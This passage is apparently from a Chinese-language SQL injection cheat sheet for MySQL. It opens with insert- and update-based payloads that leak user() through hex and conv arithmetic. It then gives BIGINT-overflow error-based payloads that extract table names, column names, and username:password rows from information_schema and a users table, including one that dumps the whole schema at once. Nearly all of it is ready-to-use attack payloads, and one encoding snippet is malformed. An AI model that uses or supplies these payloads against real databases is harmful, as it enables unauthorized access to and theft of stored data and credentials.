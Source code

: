 ```
insert into users values (17,'james', 'bond'|conv(hex(substr(user(),1 + (n-1) * 8, 8* n)),16, 10);
```

- Mysql 5.7中的限制 

```
update users set username = '0' | conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)), 16, 10) where id =16
```

- 编码解码

```
conv(hex(value, 16, 10)
```
```
select unhex(conv(value, 10, 16));
```

## mysql大整数溢出报错

![](https://ae01.alicdn.com/kf/H6addec488706403da224e768cfb174028.jpg)

- 获取表名

```
!(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x)-~0
```

- 获取列名

```
select !(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x)-~0;
```

- 检索数据

```
!(select*from(select concat_ws(':',id, username, password) from users limit 0,1)x)-~0;
```

- 一次获取全部表与列

```
!(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)-~0

(select(!x-~0)from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)

(select!x-~0.from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)
```

![](https://ae01.alicdn.com/kf/Hd1abddb9c8ba4f59a89fc03c39f8dd67b.jpg)
